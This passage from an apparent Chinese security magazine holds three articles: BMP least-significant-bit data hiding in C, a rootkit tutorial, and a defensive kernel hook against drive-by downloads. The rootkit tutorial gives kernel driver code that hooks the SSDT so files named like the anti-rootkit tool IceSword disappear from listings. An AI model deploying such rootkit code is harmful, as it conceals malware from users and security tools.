    // 将文件指针指向数据区
    fseek(fp,55,SEEK_SET);

    // 清除缓冲中的数据流（此函数重要，没有此函数读数据时会有乱码）
    fflush(fp);
    // 进入写入水印数据操作
    do
    {
        // 读取 BMP 图片中 8 个字节的信息，并存入一个临时数组中
        for(j=0;j<8;j++)
        {
            fread(&bmp_data[j],sizeof(unsigned char),1,fp);
        }
        // 将 BMP 图片指针回 8 个字节
        fseek(fp,-8,SEEK_CUR);
        // 读取 Txt 文本文件中的数据
        fread(&input_data,sizeof(char),1,ip);
        // 得到 Txt 文本读取数据的 ASCII 值
        input_data=(int)input_data;
        // 判断是字符还是汉字
        if(input_data<0)
        {
            // 汉字标识位
            text_ch=-1;
            input_data=(input_data*(-1));
        }

        j=7;
        // 将 Txt 文本数据转换为二进制
        do
        {
            input_temp[j]=input_data%2;
            // 如果是二进制 0，将 0 写入 RGB 字节末尾
            if(input_temp[j]==0)
            {
                bmp_data[t]=(bmp_data[t]&254);
                fwrite(&bmp_data[t],sizeof(unsigned char),1,fp);
                t++;
            }
            // 如果是二进制 1，将 1 写入 RGB 字节末尾
            if(input_temp[j]==1)
            {
                bmp_data[t]=(bmp_data[t]|1);
                fwrite(&bmp_data[t],sizeof(unsigned char),1,fp);
                t++;
            }
            input_data=input_data/2;
            j--;
        }while(input_data!=0);

        for(y=0;y<(j+1);y++)
        {
            // 处理 Unicode 编码的中文汉字，在中文标识位上写入标识 1
            if(text_ch==-1&&y==j)
            {
                bmp_data[t]=(bmp_data[t]|1);
                fwrite(&bmp_data[t],sizeof(unsigned char),1,fp);
                t++;
                text_ch=0;
                break;
            }
            // 转换后的二进制不是八位其余位补0
            bmp_data[t]=(bmp_data[t]&254);
            fwrite(&bmp_data[t],sizeof(unsigned char),1,fp);
            t++;
        }
        j=7;
        t=0;
        fflush(fp);
        // 恢复临时文本数组
        for(x=0;x<8;x++)
        {
            input_temp[x]=0;
        }
        i++;
    }while(i!=input_pointer);
}
```

#### 读取代码实现

```c
void read_information()
{
    FILE *fp;
    int i,j=55,t,temp=1,add=0,show[2]={0,0},inshow,x=0,y,k;
    unsigned char bmp_data[8]={0,0,0,0,0,0,0,0};
    if((fp=fopen(FileName,"r+b"))==NULL)
    {
        printf("\n-->打开BMP图片文件错误\n");
        exit(1);
    }
    fseek(fp,55,SEEK_SET);
    // 清除缓存中的数据流(此函数重要，没有此函数读数据时会有乱码)
    fflush(fp);
    do
    {
        // 将BMP图片RGB信息读取出来
        for(i=0;i<8;i++)
        {
            fread(&bmp_data[i],sizeof(unsigned char),1,fp);
            j++;
        }
        // 判断读取完毕的条件
        if(j>end_pointer)
        {
            break;
        }

        // 将二进制信息从RGB末字节提取
        for(t=0;t<8;t++)
        {
            bmp_data[t]=(bmp_data[t]&1);
        }
        // 将二进制信息还原
        add=bmp_data[0]*1;
        for(k=1;k<7;k++)
        {
            temp*=2;
            add+=(bmp_data[k]*temp);
        }
        // 判断是否是中文编码的字符
        if(bmp_data[7]==0)
        {
            inshow=add;
            printf("%c",inshow);
        }
        if(bmp_data[7]==1)
        {
            show[x]=add;
            show[x]=(show[x]<<1);
            x++;
        }
        // 还原临时BMP图片数组初始值
        for(y=0;y<8;y++)
        {
            bmp_data[y]=0;
        }
        temp=1;
        add=0;
        // 显示中文字符
        if(x==2)
        {
            printf("%c%c",show[0],show[1]);
            x=0;
        }
    }while(1);
    printf("\n-->读出BMP图片文件中的信息完成\n");
    fcloseall();
}
```

#### 总结

在 BMP 图片中写入水印，只要从数据区 55 个字节以后都可以每 8 个 RGB 字节末尾写入二进制信息，如 0xFF 变为 0xFE（Red 值从 255 变为 254），这样图片的变化情况是无法用肉眼来分辨的，只有文件的哈希值会改变，这样就能将一些加密信息写入其中了。

适合读者：编程爱好者

前置知识：VC

## RootKit文件隐藏技术实现

文／图 夜枫



RootKit 隐藏文件的原理并不复杂。我们知道，Win32 编程中枚举一个目录下的文件通常是 API 函数 FindFirstFile 和 FindNextFile 两个组合起来，枚举到当前目录下的文件，而这两个 API 实际对应的内核 Native API 是 NtQueryDirectoryFile，所以我们只需要在内核 Hook 这个 API 函数，并做相应的处理就可以实现文件的隐藏。当查到我们要隐藏的文件时，就在内核将这个文件剔除掉，所以 FindFirstFile 和 FindNextFile 实际得到的是我们已经剔除过的信息了，这样就不会被枚举出来了，也就看不到我们的文件了。当然，这个方法是过不了反 RootKit 工具的，例如 IceSword 用的是直接和磁盘驱动通信的方法获得数据，所以 RootKit 隐藏对于这类工具是无效的。

#### 应用

虽然说这种隐藏方法会被工具检测出来，但这也是正常的，因为没有一种技术是完美的，而且实际上 RootKit 隐藏各种信息是很常见的，这些技术通常用在各种木马以及后门上，当然有些病毒也有。我们这里主要是学习技术，希望大家不要用在其他方面。

#### 设计思路

上文所说的是我们要演示的思路。还有一种实现思路是做一个磁盘过滤驱动以实现文件隐藏，具体利弊不好说，不过这种方法涉及到过滤驱动的设计，稍微要复杂一些。本文还是主要介绍修改 SSDT 的方法。从 API 名字上，我们就可以看出 NtQueryDirectoryFile 不是 Win32 API 而是 Native API，所以驱动不可少。NtQueryDirectoryFile 在 DDK 里没有声明，所以我们要手动声明它。按照修改 SSDT 驱动的标准结构，我们的实现代码如下（部分）：

```c
#pragma pack(1)   // SSDT Table
typedef struct ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;
    unsigned int *ServiceCounterTableBase; // Used only in checked build
    unsigned int NumberOfServices;
    unsigned char *ParamTableBase;
} ServiceDescriptorTableEntry_t, *PServiceDescriptorTableEntry_t;
#pragma pack()
__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;
#define SYSTEMSERVICE(function) KeServiceDescriptorTable.ServiceTableBase[*((PULONG)((PUCHAR)function+1))]
```

这段代码首先定位到 SSDT 表，然后声明我们的函数。

```c
NTSTATUS NTAPI NewZwQueryDirectoryFile(
    IN HANDLE FileHandle,
    IN HANDLE Event OPTIONAL,
    IN PIO_APC_ROUTINE ApcRoutine OPTIONAL,
    IN PVOID ApcContext OPTIONAL,
    OUT PIO_STATUS_BLOCK IoStatusBlock,
    OUT PVOID FileInformation,
    IN ULONG Length,
    IN FILE_INFORMATION_CLASS FileInformationClass,
    IN BOOLEAN ReturnSingleEntry,
    IN PUNICODE_STRING FileMask OPTIONAL,
    ...
);
```

#### API 声明与函数定义

```c
IN BOOLEAN RestartScan );

// API 声明
NTSYSAPI NTSTATUS NTAPI ZwQueryDirectoryFile(
  IN HANDLE FileHandle,
  IN HANDLE Event OPTIONAL,
  IN PIO_APC_ROUTINE ApcRoutine OPTIONAL,
  IN PVOID ApcContext OPTIONAL,
  OUT PIO_STATUS_BLOCK IoStatusBlock,
  OUT PVOID FileInformation,
  IN ULONG Length,
  IN FILE_INFORMATION_CLASS FileInformationClass,
  IN BOOLEAN ReturnSingleEntry,
  IN PUNICODE_STRING FileMask OPTIONAL,
  IN BOOLEAN RestartScan );

typedef NTSTATUS (*ZWQUERYDIRECTORYFILE)(
  IN HANDLE FileHandle,
  IN HANDLE Event OPTIONAL,
  IN PIO_APC_ROUTINE ApcRoutine OPTIONAL,
  IN PVOID ApcContext OPTIONAL,
  OUT PIO_STATUS_BLOCK IoStatusBlock,
  OUT PVOID FileInformation,
  IN ULONG Length,
  IN FILE_INFORMATION_CLASS FileInformationClass,
  IN BOOLEAN ReturnSingleEntry,
  IN PUNICODE_STRING FileMask OPTIONAL,
  IN BOOLEAN RestartScan );

ZWQUERYDIRECTORYFILE OldZwQueryDirectoryFile = NULL;
```

注意，这3个可是不一样的，第一个是我们取而代之的新函数，第二个才是API声明，第三个只是一个函数声明，我们要用第三个定义一个旧的地址用于保存我们替换掉的地址，以便恢复和传递。除此之外，我还因为存在多种类型而定义了几个函数分别获得偏移量、长度、文件名和设置新偏移量。

```c
DWORD GetNextEntryOffset(IN PVOID pData, IN FILE_INFORMATION_CLASS FileInfo);
void SetNextEntryOffset(IN PVOID pData, IN FILE_INFORMATION_CLASS FileInfo, IN DWORD Offset);
PVOID GetEntryFileName(IN PVOID pData, IN FILE_INFORMATION_CLASS FileInfo);
ULONG GetFileNameLength(IN PVOID pData, IN FILE_INFORMATION_CLASS FileInfo);
```

驱动函数入口点DriverEntry里毫无疑问先要修改SSDT，用我们的NewXXXXX函数替换SSDT表中的函数地址，这样当别人调用该函数时才会进入我们的驱动。另外有一点一定要注意，就是一定要有卸载函数，否则驱动会卸载不掉，而且卸载函数中一定要恢复SSDT表，否则当调用到该函数的时候，这时驱动已经卸载了，所以地址会无效，导致出错，而内核出错就直接蓝屏死机了。

```c
KdPrint(("OldAddress:0x%X\tNewAddress:0x%X\n", SYSTEMSERVICE(ZwQueryDirectoryFile), NewZwQueryDirectoryFile));
OldZwQueryDirectoryFile = (ZWQUERYDIRECTORYFILE)SYSTEMSERVICE(ZwQueryDirectoryFile);
(ZWQUERYDIRECTORYFILE)SYSTEMSERVICE(ZwQueryDirectoryFile)=NewZwQueryDirectoryFile;
```

恢复SSDT的代码如下：

```c
KdPrint(("Driver Unload Called\n"));
(ZWQUERYDIRECTORYFILE)SYSTEMSERVICE(ZwQueryDirectoryFile)=OldZwQueryDirectoryFile;
KdPrint(("Address:0x%X\n", SYSTEMSERVICE(ZwQueryDirectoryFile)));
```

这里简单介绍一下KdPrint，这个函数主要用于输出一个调试信息，因为内核不能像一般程序一样方便地调试，但可以用这种方法简单查看变量值等。另外值得一提的是KdPrint只有在Check版才会显示，当生成为Free版时，KdPrint就自动无效了，这点比DbgPrint要好用。下面我们看一下新函数中的处理。

```c
NTSTATUS NTAPI NewZwQueryDirectoryFile(
  IN HANDLE FileHandle,
  IN HANDLE Event OPTIONAL,
  IN PIO_APC_ROUTINE ApcRoutine OPTIONAL,
  IN PVOID ApcContext OPTIONAL,
  OUT PIO_STATUS_BLOCK IoStatusBlock,
  OUT PVOID FileInformation,
  IN ULONG Length,
  IN FILE_INFORMATION_CLASS FileInformationClass,
  IN BOOLEAN ReturnSingleEntry,
  IN PUNICODE_STRING FileMask OPTIONAL,
  IN BOOLEAN RestartScan )
{
  NTSTATUS ntStatus = OldZwQueryDirectoryFile(
    FileHandle, Event, ApcRoutine, ApcContext, IoStatusBlock,
    FileInformation, Length, FileInformationClass,
    ReturnSingleEntry, FileMask, RestartScan
  );

  if (NT_SUCCESS(ntStatus) &&
      (FileInformationClass == FileDirectoryInformation ||
       FileInformationClass == FileFullDirectoryInformation ||
       FileInformationClass == FileIdFullDirectoryInformation ||
       FileInformationClass == FileBothDirectoryInformation ||
       FileInformationClass == FileIdBothDirectoryInformation ||
       FileInformationClass == FileNamesInformation))
  {
      PVOID p = FileInformation;
      PVOID pLast = NULL;
      DWORD pLastOne = 0;
      KdPrint(("<--------->\n"));
      do {
          pLastOne = GetNextEntryOffset(p, FileInformationClass);
          KdPrint(("[*]Last:0x%x\tCurrent:0x%x\tpLastOne:%d\n", pLast, p, pLastOne));
          if (RtlCompareMemory(GetEntryFileName(p, FileInformationClass), L"IceSword", 16) == 16)
          {
              KdPrint(("[-]Hide....\n"));
              if (pLastOne == 0)
              {
                  if (p == FileInformation)
                      ntStatus = STATUS_NO_MORE_FILES;
                  else
                      SetNextEntryOffset(pLast, FileInformationClass, 0);
                  break;
              }
              else
              {
                  int iPos = ((ULONG)p - (ULONG)FileInformation);
                  int iLeft = (DWORD)Length - iPos - pLastOne;
                  RtlCopyMemory(p, (PVOID)((char*)p + pLastOne), (DWORD)iLeft);
                  KdPrint(("iPos:%ld\tLength:%ld\tiLeft:%ld\tNextOffset:%ld\tpLastOne:%ld\tCurrent:0x%x\n",
                      iPos, Length, iLeft, GetNextEntryOffset(p, FileInformationClass), pLastOne, p));
                  continue;
              }
          }
          pLast = p;
          p = ((char*)p + GetNextEntryOffset(p, FileInformationClass));
      } while (pLastOne != 0);
      KdPrint(("<--------->\n"));
  }
  return ntStatus;
}
```

以上代码首先调用一次旧函数，不然会出错。当旧函数返回成功并且FileInformationClass为以上6种类型时，才会进入过滤部分。这个函数微软并未公开，可到 http://undocumented.ntinternals.net 查到相关信息。

根据FileInformationClass的不同，FileInformation的值也会不一样，所以我另外写了几个函数，具体请见本文代码。这里简单介绍一下FileInformation的结构，不管它是什么类型，都会是一个类似链表的结构，但又不是链表，会有一个NextEntryOffset属性，这个属性记录下一个信息的偏移量。简单地说就是从起始位置开始的偏移位置。举个例子，目前有6个人站成一排，第一个人记录的下一个人的偏移量就是2，这样从开始位置加2就是第二个人了。

这里也是这种原理，所以我们用一个pLast变量保存上一个信息的地址，一个pLastOne保存当前这条的下一条的偏移量，当然最后一条的偏移量肯定是0，因为它没有下一个了，所以我们从第一条开始一个一个遍历所有条目，直到pLastOne为0，也就是最后一条结束时再退出循环，而这里用了一个do-while循环就是起到这个作用的。不过还有个问题，就是假设我们这个条目是最后一条，这时我们就应该让前一条的NextEntryOffset为0，表示前一条就是最后一条，这样当前这条就无效了，也就达到了隐藏的目的，所以我做了一个判断，代码如下。

```c
if (pLastOne == 0)
{
    if (p == FileInformation)
        ntStatus = STATUS_NO_MORE_FILES;
    else
        SetNextEntryOffset(pLast, FileInformationClass, 0);
    break;
}
```

如果不是最后一条就有点难办了。我开始想的是将上一条的NextEntryOffset设置为当前这一条的Offset，这样就能绕过，后来试了试不知道为什么会蓝屏。因此我采用了另外一个方法，就是将后面的内存复制过来，从当前位置开始覆盖，这样结构体是连续的，就不会出错了，而且最后一条的NextEntryOffset是0，所以不必担心后面的内存无效的问题。

#### 实际测试

至此，文件的隐藏我们就实现了，下面就试试看吧。我们以隐藏文件IceSword.exe为例，如图1所示，运行驱动后的结果如图2所示。这里我做的判断是IceSword长度为8，使用Unicode编码长度为16，所以不论任何扩展名，只要前面是IceSword的都会被隐藏。





本文介绍的这个方法虽然能实现文件隐藏，不过不是很稳定，容易出错。可能是我代码编写的问题，大家可以在此基础上多多思考，完美地解决这个问题。

适合读者：编程爱好者

前置知识：VC

## Ring0钩子防网页挂马



文／图 炉子[OGinr]

相信不少朋友都用过Maxthon2浏览器。该浏览器使用的虽然是IE内核，但在安全性方面却下了不少功夫。

在Maxthon2正式版的发布公告里是这样介绍的：本次更新的重点是为浏览器加入了新型的安全监控系统。目前很多的木马和病毒都是利用了操作系统的一些漏洞，当用户浏览一些恶意网站的时候，就可能遇到那些利用系统漏洞的代码，从而使木马或者病毒下载到用户的机器上，随后被执行。而傲游2.0新加入的这个功能就是如果有木马或者病毒被这些网站下载到用户的电脑，要执行的时候，傲游浏览器就会弹出警告窗口，用户可以选择不执行这些程序，也就杜绝了感染的机会。

程序作者不可能直接修改IE内核，那么这个安全监控系统是怎么实现的呢？下面我们就试着去实现它。

#### 实现原理

这里以Maxthon2为例。启动Maxthon2，用RkU扫描，得到如图1所示的结果。这似乎还不很明了，不过如果从我们所熟悉的CreateProcessW函数找起来的话就很明白了。



```asm
lkd> u kernel32!CreateProcessW L 30
kernel32!CreateProcessW:
  mov edi, edi
  push ebp
  mov ebp, esp
  push 0
  push dword ptr [ebp+2Ch]
  push dword ptr [ebp+28h]
  push dword ptr [ebp+24h]
  push dword ptr [ebp+20h]
  push dword ptr [ebp+1Ch]
  push dword ptr [ebp+18h]
  push dword ptr [ebp+14h]
  push dword ptr [ebp+10h]
  push dword ptr [ebp+0Ch]
  push dword ptr [ebp+8]
  push 0
  call kernel32!CreateProcessInternalW
  pop ebp
  ret 28h
```

可见，CreateProcessW函数除了多传入两个0以外，所有的参数都原封不动地传给了CreateProcessInternalW，而由于MxGuardian.dll拦截了这个函数，所以Maxthon2创建进程时会被MxGuardian.dll截获而通知用户，这样便防止了利用IE漏洞在无提示的情况下执行木马程序（不能拦截利用IE漏洞下载木马程序，但由于木马程序不能被执行，所以便实现了防网页挂马）。

#### 实现方案

由上可知，Maxthon2通过拦截CreateProcessInternalW函数来实现防网页挂马功能，但我们并非浏览器的设计者，所以我们无法判断用户会使用何种浏览器（本文仅讨论基于IE内核的浏览器）来浏览网页，如果我们也采用用户模式注入动态链接库的方式，只有通过BHO来实现防网页挂马。但BHO编写相对复杂，所以在此我们通过内核模式下做内核钩子来实现此功能。

我们知道，CreateProcessInternalW这个函数最终要调用NtCreateProcessEx函数（Windows 2000下为NtCreateProcess，原理相同，下文均假设系统版本为Windows XP SP2），所以我们可以通过修改SSDT来拦截这个函数实现截获进程启动操作（如何判断进程是否由浏览器创建请参见下文）。

- 1）什么是SSDT

SSDT，全称System Service Descriptor Table，又称为系统服务描述符表。它是一个含有所有本地系统服务（Native API）入口地址的表。

应用程序需要调用API时（如CreateProcessW函数），这个调用会从相应的动态链接库（如Kernel32.dll）转移到Ntdll.dll，这个动态链接库相当于一个门，所有的用户模式API调用都从这里转移到相应的系统服务（如NtCreateProcessEx函数）。Ntdll.dll中含有所有系统服务的“服务号”，也就是该系统服务在系统服务描述符表中的序号。Ntdll.dll将该服务对应的服务号传递给KiSystemService函数（XP及以上系统），之后就从用户模式进入了内核模式。

- 2）获取NtCreateProcessEx函数的服务号

由于ZwCreateProcessEx函数（非NtCreateProcessEx函数）未被ntoskrnl.exe导出，所以我们无法使用`*((UCHAR*)ZwCreateProcessEx+1)`这样的方法来取得它的服务号。不过好在系统服务描述符表的服务号变动不是很频繁，所以我们可以根据系统导出的NtBuildNumber常量来硬编码，或者也可以自己读取ntdll.dll，然后从ntdll.dll中取得服务号（先从导入表中找到ZwCreateProcessEx函数或NtCreateProcessEx函数均可，然后使用`*((UCHAR*)ZwCreateProcess+1)`的方法即可）。注意，在ntoskrnl.exe中，Zw***系列函数和Nt***系列函数不同，而在ntdll.dll中，Zw***系列函数和Nt***系列函数则相同。

- 3）如何修改系统服务描述符表

为了实现拦截对NtCreateProcessEx函数的调用，我们需要修改系统服务描述符表。系统服务描述符表实际上是一张指针表，可以通过修改这张表来实现拦截指定的系统服务。通常，我们可以使用系统导出的KeServiceDescriptorTable常量来定位这张表。

```text
lkd> dd KeServiceDescriptorTable
8055a680  804e36a8 00000000 0000011c 80513cb8
```

其中，804e36a8这个地址便是指向我们需要修改的表的指针（KiServiceTable）。我们可以通过`*(KiServiceTable + ServiceId * 4)`来得到服务号为ServiceId的系统服务当前地址，同样，我们也可以通过改变其内容（KiServiceTable有写保护，但可以自己修改CR0寄存器或者自己创建一个MDL来修改）来实现拦截。

拦截服务号为 _ServiceId 的系统服务。KiServiceTable 实际上是由多个指针组成的一个数组，在 32 位操作系统下，指针的长度为 4，所以使用 _ServiceId * 4。

#### 实现拦截 NtCreateProcessEx 函数

由于 KiServiceTable 所在的内存被系统设置为只读，不能直接写入，所以我们使用 MDL（Memory Descriptor List）来修改系统服务描述符表。

```c
g_pmdlSystemCall = MmCreateMdl(NULL, KeServiceDescriptorTable.ServiceTableBase, KeServiceDescriptorTable.NumberOfServices * 4);
// 创建一个 MDL
if (!g_pmdlSystemCall)
    return STATUS_UNSUCCESSFUL;
MmBuildMdlForNonPagedPool(g_pmdlSystemCall);
g_pmdlSystemCall->MdlFlags = g_pmdlSystemCall->MdlFlags | MDL_MAPPED_TO_SYSTEM_VA;
// 修改 MDL 的 Flags，这样就可以执行写操作了
MappedSystemCallTable = MmMapLockedPages(g_pmdlSystemCall, KernelMode);
// 锁定该页面，然后映射 g_pmdlSystemCall 所描述的物理页
```

之后我们就可以通过操作 MappedSystemCallTable 来实现修改系统服务描述符表了。我们使用如下代码来拦截 NtCreateProcessEx 函数。

```c
#define HOOK_SYSCALL(_ServiceId, _Hook, _Orig) \
    _Orig = (PVOID)InterlockedExchange((PLONG)&MappedSystemCallTable[_ServiceId], (LONG)_Hook)

#define UNHOOK_SYSCALL(_ServiceId, _Hook, _Orig) \
    InterlockedExchange((PLONG)&MappedSystemCallTable[_ServiceId], (LONG)_Hook)

BOOLEAN EnableDriver()
{
    HOOK_SYSCALL(ServiceId_ZwCreateProcessEx, New_ZwCreateProcessEx, Old_ZwCreateProcessEx);
    dprint(("[Kernel Driver] EnableDriver.\n"));
    return TRUE;
}

BOOLEAN DisableDriver()
{
    ...
}
```

```c
UNHOOK_SYSCALL(ServiceId_ZwCreateProcessEx, Old_ZwCreateProcessEx, New_ZwCreateProcessEx);
dprint(("[Kernel Driver] DisableDriver.\n"));
return TRUE;
}
```

#### 在 New_ZwCreateProcessEx 拦截函数中对参数的处理

- 1）获取目标进程路径

如果我们只是拦截浏览器的 NtCreateProcessEx 函数操作，就不需要处理 New_ZwCreateProcessEx 拦截函数中的参数；但是由于浏览器的下载文件中可以选择“运行（R）”，而这显然不是网页挂马导致的 NtCreateProcessEx 函数调用，所以当我们拦截到浏览器的 NtCreateProcessEx 函数调用时，我们不得不通知用户即将运行的文件的全路径，然后由用户选择是否运行。

但是，我们仔细看看 NtCreateProcessEx 函数的参数就会发现，NtCreateProcessEx 函数的参数中没有直接给出目标进程的路径。通过逆向 CreateProcessInternalW 函数可以得知，CreateProcessInternalW 函数使用传入的进程路径创建了一个 Section，然后把 hSection 传给了 NtCreateProcessEx 函数，所以我们可以通过传入参数中的 SectionHandle 参数来得到对应的文件路径。

```c
NTSTATUS
GetProcessImageName(HANDLE SectionHandle, PCHAR ProcessImageName)
{
    PVOID SectionObject;
    PFILE_OBJECT FileObject;
